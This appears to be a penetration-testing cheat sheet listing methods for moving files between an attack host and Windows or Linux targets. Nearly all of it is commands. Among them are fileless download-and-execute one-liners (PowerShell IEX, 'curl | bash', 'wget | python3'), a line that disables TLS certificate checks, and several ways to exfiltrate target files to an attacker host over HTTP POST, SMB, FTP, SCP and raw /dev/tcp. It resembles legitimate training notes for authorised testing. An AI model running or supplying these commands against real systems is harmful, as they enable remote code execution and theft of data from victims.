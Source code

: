 # File Transfer Methods

## Windows

### Download Files on Target

- Base64 Encode and Decode

```shell
# Attack box
cat filename |base64 -w 0;echo
# Target Windows host
[IO.File]::WriteAllBytes("Output_file", [Convert]::FromBase64String("base64_string"))
```

- PowerShell DownloadFile Method

```shell
# File Download
(New-Object Net.WebClient).DownloadFile('<Target_File_URL>','<Output_file>')
(New-Object Net.WebClient).DownloadFileAsync('<Target_File_URL>','<Output_file>')

# Fileless Download
IEX (New-Object Net.WebClient).DownloadString('<Target_File_URL>')
(New-Object Net.WebClient).DownloadString('<Target_File_URL>') | IEX
Invoke-WebRequest <Target_File_URL> -OutFile <Output_file>

# Response content cannot be parsed because the Internet Explorer
Invoke-WebRequest <Target_File_URL> -UseBasicParsing | IEX
# In case of SSL/TLS error
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

- SMB Downloads

```shell
# Create SMB server on attack host
sudo impacket-smbserver <share_name> -smb2support <folder_path>
sudo impacket-smbserver <share_name> -smb2support <folder_path> -user test -password test

# Download file from attacker SMB server
copy \\<attacker_ip>\<share_name>\<filename>
net use n: \\<attacker_ip>\<share_name> /user:test test
```

- FTP Downloads

```shell
# Setup on attack host
python3 -m venv venv
pip3 install pyftpdlib
python3 -m pyftpdlib --port 21

# Download file on target host
(New-Object Net.WebClient).DownloadFile('ftp://<attacker_ip>/<filename>', 'output_file')
```

- Mounting a linux folder on target host using RDP

```shell
# Using rdesktop
rdesktop <target_ip> -d <domain> -u <username> -p <password> -r disk:linux=<folder_path>
# Using xfreerdp
xfreerdp /v:<target_ip> /d:<domain> /u:<username> /p:<password> /drive:linux,<folder_path>
```

### Upload Files to Attack Host

- Base64 Encode and Decode

```shell
# Encode file on target host
[Convert]::ToBase64String((Get-Content -path "<file_path>" -Encoding byte))

# Decode file attack host
echo <base64_string> | base64 -d > output_file
```

- Powershell web uploads

```shell
# Setup web server on attack host
python3 -m venv venv
pip3 install uploadserver
python3 -m uploadserver

# Upload file to web server from powershell
Invoke-FileUpload -Uri <attacker_ip>/upload -File file_path
```

- Base64 Encoded web upload

```shell
# Start listening on attack host
nc -nvlp <port>

# Send base64 string through Powershell 
$b64 = [System.convert]::ToBase64String((Get-Content -Path <file_path> -Encoding Byte))
Invoke-WebRequest -Uri <attacker_ip> -Method POST -Body $b64
```

- SMB Upload

```shell
# Setup SMB server on attack host
python3 -m venv venv
pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 

# Upload file to SMB share
copy <filepath> \\<attacker_ip>\<share_folder>\
```

- FTP Upload

```shell
# Setup server on attack host
python3 -m venv venv
sudo python3 -m pyftpdlib --port 21 --write

# Upload file on FTP server
(New-Object Net.WebClient).UploadFile('ftp://<attcker_ip>/ftp-hosts', '<filepath>')
```


## Linux

### Download Files on Target

- Base64 Encode and decode

```shell
# Base64 encode
cat <filename> |base64 -w 0;echo
# Base64 decode
echo -n 'base64_string' | base64 -d > output_file
```

- Web Downloads

```shell
# Start web server on Attack host
python3 -m http.server

# Download files
wget <url> -O output_file
curl -o output_file <url>

# Fileless download
curl <url> | bash
wget -qO- <url> | python3
```

- Download with bash

```shell
# Start web server on attack host
python3 -m http.server <port>

# Connect to server
exec 3<>/dev/tcp/<attacker_ip>/<port>
# Send request to download file
echo -e "GET /<filename> HTTP/1.1\n\n">&3
# Write the content in file
cat <&3 > <filename>
```

- SCP Download

```shell
scp <username>@<host_ip>:<file_path> output_file 
```


### Upload Files on Attack Host

- Web Upload

```shell
# Install dependencies on attack host
python3 -m venv venv
python3 -m pip install --user uploadserver
# create self signed certificate
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
# Start web server on attack host
mkdir https && cd https
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

# Upload file(s) from target
curl -X POST https://<attacker_ip>/upload -F 'files=@file1_path' -F 'files=@file2_path' --insecure
```

- Starting a web server on victim and use curl to download files on attack host

```shell
python3 -m http.server
php -S 0.0.0.0:8000
ruby -run -ehttpd . -p8000
```

- File Upload using SCP

```shell
# Send files on attack host using scp
scp <file_path> <username>@<attacker_ip>:<output_file>

# Download file on attack host using scp
scp <username>@<target_ip>:<file_path> output_file 
```